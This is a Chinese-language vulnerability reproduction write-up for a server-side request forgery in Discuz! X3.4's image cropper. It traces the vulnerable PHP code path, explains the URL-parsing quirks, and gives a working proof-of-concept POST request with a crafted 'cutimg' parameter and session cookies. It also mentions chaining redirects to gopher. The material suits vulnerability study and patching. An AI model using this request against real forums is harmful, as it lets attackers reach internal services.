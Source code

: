 Discuz! X3.4 imgcropper ssrf
============================

一、漏洞简介
------------

对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host
的请求，总的来说比较鸡肋

二、漏洞影响
------------

三、复现过程
------------

`source/class/class_image.php` `image`类`init`方法：

        function init($method, $source, $target, $nosuffix = 0) {
            global $_G;

            $this->errorcode = 0;
            if(empty($source)) {
                return -2;
            }
            $parse = parse_url($source);
            if(isset($parse['host'])) {
                if(empty($target)) {
                    return -2;
                }
                $data = dfsockopen($source);
                $this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');
                if(!$data || $source === FALSE) {
                    return -2;
                }
                file_put_contents($source, $data);
            }
            ......
      }

再找哪些地方调用了`image`类的`init`方法，发现`image`类的`Thumb`、`Cropper`、`Watermark`方法都调用了`init`。比如`Thumb`：

        function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {
            $return = $this->init('thumb', $source, $target, $nosuffix);
            ......
        }

所以再找哪些地方调用了`image`类的`Thumb`方法，最终发现：

`source/module/misc/misc_imgcropper.php` 52-57行：

        require_once libfile('class/image');
        $image = new image();
        $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl'];
        if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {
            showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));
        }

下断点调试发现 `$_G['setting']['ftp']['attachurl']` 的值为 `/`，而
`$_G['setting']['attachurl']` 的值是 `data/attachment/`。所以似乎
`$prefix` 为 `/` 才有 SSRF 利用的可能。

一开始构造 `cutimg=/10.0.1.1/get`，这样 `$url` 的值就为
`//10.0.1.1/get`，按道理来说这应该算是一个正常的
url，但是结果却请求失败了。

仔细跟进 `_dfsockopen` 发现，在 PHP 环境安装有 cURL 时，进入 curl
处理的代码分支，直到这里：

    curl_setopt($ch, CURLOPT_URL, $scheme.'://'.($ip ? $ip : $host).($port ? ':'.$port : '').$path);

`$scheme`、`$host`、`$port`、`$path` 都是 `parse_url` 解析 url
参数后的对应的值，而对像 `//10.0.1.1/get` 这样的 url 解析时，`$scheme`
的值是 `null`，因此最后拼接的结果是 `://10.0.1.1/get`，没有协议，curl
最后对这种url的请求会自动在前面加上 `HTTP://`，结果就变成了请求
`HTTP://://10.0.1.1/get`，这种 url 在我的环境中会导致 curl 报错。

所以我去掉了 curl 扩展，让 `_dfsockopen` 函数代码走 socket
发包的流程，踩了 `parse_url` 和 Dz
代码的一些坑点（这里就不展开了，有兴趣的同学调下代码就知道了），最后发现像这样构造可以成功：

    cutimg=/:@localhost:9090/dz-imgcropper-ssrf

poc:

    POST /misc.php?mod=imgcropper&picflag=2&cutimg=/:@localhost:9090/dz-imgcropper-ssrf HTTP/1.1
    Host: ubuntu-trusty.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Cookie: xkmD_2132_sid=E5sbVr; xkmD_2132_saltkey=m6Y8022s; xkmD_2132_lastvisit=1521612483; xkmD_2132_lastact=1521624907%09misc.php%09imgcropper; xkmD_2132_home_readfeed=1521616105; xkmD_2132_seccode=1.ecda87c571707d3f92; xkmD_2132_ulastactivity=a0f4A9CWpermv2t0GGOrf8%2BzCf6dZyAoQ3Sto7ORINqJeK4g3xcX; xkmD_2132_auth=40a4BIESn2PZVmGftNQ2%2BD1ImxpYr0HXke37YiChA2ruG6OryhLe0bUg53XKlioysCePIZGEO1jmlB1L4qbo; XG8F_2132_sid=fKyQMr; XG8F_2132_saltkey=U7lxxLwx; XG8F_2132_lastvisit=1521683793; XG8F_2132_lastact=1521699709%09index.php%09; XG8F_2132_ulastactivity=200fir8BflS1t8ODAa3R7YNsZTQ1k262ysLbc9wdHRzbPnMZ%2BOv7; XG8F_2132_auth=3711UP00sKWDx2Vo1DtO17C%2FvDfrelGOrwhtDmwu5vBjiXSHuPaFVJ%2FC%2BQi1mw4v4pJ66jx6otRFKfU03cBy; XG8F_2132_lip=172.16.99.1%2C1521688203; XG8F_2132_nofavfid=1; XG8F_2132_onlineusernum=3; XG8F_2132_sendmail=1
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 36

    imgcroppersubmit=1&formhash=f8472648

此时 url 即为`//:@localhost:9090/dz-imgcropper-ssrf`。SSRF 请求成功：

![](./resource/Discuz!X3.4imgcropperssrf/media/rId24.png)

通过这种方式进行构造利用的话，不太需要额外的限制条件（只要求服务端 PHP
环境没有安装 curl 扩展）￼，但是只能发 HTTP GET
请求，并且服务端不跟随跳转。漏洞危害有限。

后来 l3m0n 师傅也独立发现了这个漏洞，并且他发现较高版本的 curl
是可以成功请求 `HTTP://:/` 的，较高版本的 curl 会将这种 url 地址解析到
127.0.0.1 的 80 端口：

![](./resource/Discuz!X3.4imgcropperssrf/media/rId25.jpg)

最后他再利用之前 PHP `parse_url` 的解析 bug（
[https://bugs.php.net/bug.php?id=73192](https://link.zhihu.com/?target=https%3A//bugs.php.net/bug.php%3Fid%3D73192)
），及利用 `parse_url` 和 curl 对 url 的解析差异，成功进行 302
跳转到任意恶意地址，最后再 302 跳转到 gopher
就做到发送任意数据包。详情可以参考 l3m0n 的博客：

[Discuz x3.4前台SSRF - l3m0n -
博客园](https://link.zhihu.com/?target=https%3A//www.cnblogs.com/iamstudy/articles/discuz_x34_ssrf_1.html)

但是这种利用方式对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空
Host 的请求。总的来说，imgcropper SSRF 仍然比较鸡肋。
